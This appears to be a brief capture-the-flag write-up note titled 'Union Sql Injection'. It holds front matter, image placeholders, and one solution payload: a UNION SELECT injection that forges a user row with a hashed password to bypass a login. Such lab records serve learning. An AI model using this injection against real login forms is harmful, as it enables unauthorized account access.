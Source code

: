 ```yaml
---
title: "Union Sql Injection"
date: 2025-06-10T17:16:34+03:00
section: "ms ctf"
categories: ["ms ctf"]
---
```

---
section: "ms ctf"
categories: ["ms ctf"]
title: "Union Sql Injection"
date: 2025-05-21
---

![[Pasted image 20250521130606.png]]

the solution 
![[Pasted image 20250521130644.png]]

the query run was
```sql
' UNION SELECT 1, 'bob', '5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8', ''--
password: password
```

